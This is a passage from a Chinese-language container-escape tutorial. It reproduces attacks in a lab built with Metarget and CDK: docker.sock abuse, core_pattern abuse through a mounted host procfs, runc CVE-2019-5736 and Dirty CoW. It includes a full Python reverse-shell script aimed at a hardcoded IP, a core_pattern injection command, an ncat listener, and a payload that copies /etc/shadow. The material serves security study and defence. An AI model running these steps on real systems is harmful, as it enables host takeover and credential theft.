

命令执行（逃逸）：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>./cdk run docker-sock-pwn <sock_path> <shell_cmd><br>./cdk run docker-sock-pwn /var/run/docker.sock "touch /host/tmp/pwn-success"<br>``` |

#### [](#322-%E6%8C%82%E8%BD%BD%E4%B8%BB%E6%9C%BA-procfs-%E7%9A%84%E6%83%85%E5%86%B5)3.2.2 挂载主机 procfs 的情况

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时。

一般来说，我们不会将宿主机的procfs挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从手册中能获得关于内存转储的详细信息，关键信息如下：

> 从 2.6.19 内核版本开始，Linux 支持在`/proc/sys/kernel/core_pattern`中使用新语法。如果该文件中的首个字符是管道符`|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

因此，可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

环境搭建：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>./metarget gadget install docker --version 18.03.1<br>./metarget gadget install k8s --version 1.16.5 --domestic<br>./metarget cnv install mount-host-procfs<br>``` |

执行完成后，K8s 集群内 `metarget` 命令空间下将会创建一个名为 `mount-host-procfs` 的 pod。

宿主机的 procfs 在容器内部的挂载路径是 `/host-proc`。

复现：

执行以下命令进入容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl exec -it -n metarget mount-host-procfs /bin/bash<br>``` |

在容器中，首先拿到当前容器在宿主机上的绝对路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>cat /proc/mounts \| grep docker<br>``` |

从 `workdir` 可以得到基础路径，结合背景知识可知当前容器在宿主机上的 `merged` 目录绝对路径如下：



向容器内 `/host-proc/sys/kernel/core_pattern` 内写入以下内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>echo -e "\|/var/lib/docker/overlay2/c7c07b405792a4da3db07f22ae42a35ad00c8946362f0ebe7687bea79785add8/merged/tmp/.x.py \rcore           " > /host-proc/sys/kernel/core_pattern<br>``` |

然后在容器内创建一个反弹 shell 的 `/tmp/.x.py`：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```python<br>cat >/tmp/.x.py << EOF<br>#!/usr/bin/python<br>import os<br>import pty<br>import socket<br>lhost = "101.32.10.105"<br>lport = 9999<br>def main():<br>    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>    s.connect((lhost, lport))<br>    os.dup2(s.fileno(), 0)<br>    os.dup2(s.fileno(), 1)<br>    os.dup2(s.fileno(), 2)<br>    os.putenv("HISTFILE", '/dev/null')<br>    pty.spawn("/bin/bash")<br>    os.remove('/tmp/.x.py')<br>    s.close()<br>if __name__ == "__main__":<br>    main()<br>EOF<br><br>chmod +x /tmp/.x.py<br>``` |

最后，在容器内运行一个可以崩溃的程序即可，例如：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```c<br>#include <stdio.h><br>int main(void)<br>{<br>    int *a = NULL;<br>    *a = 1;<br>    return 0;<br>}<br>``` |

容器内若没有编译器，可以先在其他机器上编译好后放入容器中。

完成后，在其他机器上开启 shell 监听：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ncat -lvnp 9999<br>``` |

接着在容器内执行上述编译好的崩溃程序，即可获得反弹 shell。





利用 CDK 工具：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./cdk run mount-procfs /mnt/host_proc "touch /tmp/exp-success"<br>``` |

## [](#4-%E7%9B%B8%E5%85%B3%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8)4 相关程序漏洞导致的容器逃逸

### [](#41-cve-2019-5736)4.1 CVE-2019-5736

影响版本：`Docker version <= 18.09.2` & `RunC version <= 1.0-rc6`

#### [](#411-%E5%8E%9F%E7%90%86)4.1.1 原理

CVE-2019-5736 一个能够覆盖宿主机 runc 程序的容器逃逸漏洞。

在执行功能类似于 `docker exec` 等命令时，底层实际上是容器运行时在操作。例如 runC，相应地，`runc exec` 命令会被执行。它的最终效果是在容器内部执行用户指定的程序。进一步讲，就是在容器的各种命名空间内，受到各种限制（如 Cgroups）的情况下，启动一个进程。除此以外，这个操作与在宿主机上执行一个程序并无二致。

执行过程大体如下：runC 启动并加入到容器的命名空间，接着以自身 (`/proc/self/` `exe`）为范本启动一个子进程，最后通过 exec 系统调用执行用户指定的二进制程序。

proc 伪文件系统，即 /proc。关于这个概念，这里我们主要关注 proc 下的两类文件：

-   `/proc/[PID]/exe`：它是一种特殊的符号链接，又被称为 `magic links`， 指向进程自身 对应的本地程序文件（例如我们执行 `ls /proc/[ls-PID]/exe` 就指向 `/bin/ls`)。
-   `/proc/[PID]/fd/`：这个目录下包含了进程打开的所有文件描述符。

`/proc/[PID]/exe` 的特殊之处在于，当打开这个文件时，在权限检查通过的情况下，内核将 直接返回一个指向该文件的描述符，而非按照传统的打开方式做路径解析和文件查找。这样 一来，它实际上绕过了 mnt 命名空间及 chroot 机制对一个进程能够访问到的文件路径的限制。

那么，设想如下攻击场景：在 `runc exec` 加入到容器的命名空间之后，容器内进程已经能够 通过内部 `/proc` 观察到它，此时如果打开 `/proc/runc-[PID]/exe` 并写入一些内容，就能够实现 将宿主机上的 runc 二进制程序覆盖掉。这样一来，下一次用户调用 runc 来执行命令时，实 际执行的将是攻击者放置的指令。

在存在漏洞的容器环境内，上述思路是可行的，但是攻击者想要在容器内实现宿主机 上的代码执行（逃逸)，还需要突破两个限制：

1.  用户权限限制，需要具有容器内部 root 权限。
2.  Linux 不允许修改正在运行的进程对应的本地二进制文件。

事实上，很多容器就是以 root 身份启动服务的。

攻击步骤：

-   将容器内的 `/bin/sh` 程序覆盖为 `#!/proc/self/exe`。
-   持续遍历容器内 `/proc` 目录，读取每一个`/proc/[PID]/cmdline`，对 runc 做字符串 匹配，直到找到 runc 进程号。
-   以只读方式打开 `/proc/[runc-PID]/exe`，拿到文件描述符 fd。
-   持续尝试以写方式打开第 3 步中获得的只读 fd (`/proc/self/fd/[fd]`)，一开始总是返回失败，直到 runc 结束占用后写方式打开成功，立即通过该 fd 向宿主机上的 `/usr/bin/runc`，(名字也可能是 `/usr/bin/docker/runc`）写入攻击载荷
-   runc 最后将执行用户通过 `docker exec` 指定的 `/bin/sh`，它的内容在第 1 步中已经被替换成 `#/proc/self/exe`，因此实际上将执行宿主机上的 runc，而 runc 也已经在第 4 步中被覆盖掉了。

#### [](#412-%E5%A4%8D%E7%8E%B0)4.1.2 复现

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./metarget cnv install cve-2019-5736<br>``` |



[POC](https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go)：

payload 的内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```go<br>var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"<br>``` |





## [](#5-%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8)5 内核漏洞导致的容器逃逸

Linux 内核漏洞的危害之大、影响范围之广，使得它在各种攻防话题下都占据非常重要的一席。无论攻防场景怎样变化，我们对内核漏洞的利用往往都是从用户空间非法进入内核空间开始，到内核空间赋予当前或其他进程高权限后回到用户空间结束。

从操作系统层面来看，容器进程只是一种受到各种安全机制约束的进程，因此从攻防两端来看，容器逃逸都遵循传统的权限提升流程。攻击者可以凭借此特点拓展容器逃逸的思路，一旦有新的内核漏洞产生，就可以考虑它是否能够用于容器逃逸；而防守者则能够针对此特征进行防护和检测，如宿主机内核打补丁，或检查该内核漏洞利用有什么特点。

我们的关注点并非是内核漏洞，列举并剖析过多内核漏洞无益，但我们可以提出如下问题：为何内核漏洞能够用于容器逃逸，在具体实施过程中与内核漏洞用于传统权限提升有什么不同，在有了内核漏洞利用代码之后还需要做哪些工作才能实现容器逃逸。

### [](#51-cve-2016-5195)5.1 CVE-2016-5195

近年来，Linux 系统曝出过无数内核漏洞，其中能够用来提权的也不少，脏牛依赖于内存页的写时复制机制，该机制英文名称为 Copy-on-Write，再结合内存页特性，将漏洞命名为Dirty CoW，译为脏牛）大概是其中最有名气的漏洞之一。漏洞发现者甚至为其申请了专属域名（dirtycow.ninja），在笔者的印象中，上一个同样申请了域名的严重漏洞还是2014年的心脏滴血（CVE-2014-0160，heartbleed.com）。自这两个漏洞开始，越来越多的研究人员开始为他们发现的高危漏洞申请域名（尽管依然是极少数）。

关于脏牛漏洞的分析和利用文章早已遍布全网。这里我们使用来自 scumjr 的 [PoC](https://github.com/scumjr/dirtycow-vdso) 来完成容器逃逸。该利用的核心思路是向 vDSO 内写入 shellcode 并劫持正常函数的调用过程。

复现：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>./metarget cnv install cve-2016-5195<br>git clone https://github.com/gebl/dirtycow-docker-vdso.git<br>cd dirtycow-docker-vdso/<br>docker-compose run dirtycow /bin/bash<br>``` |

进入容器，编译 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>cd /dirtycow-vdso/<br>make<br>./0xdeadbeef 192.168.172.136:1234<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

-   云原生安全——攻防实践与体系构建
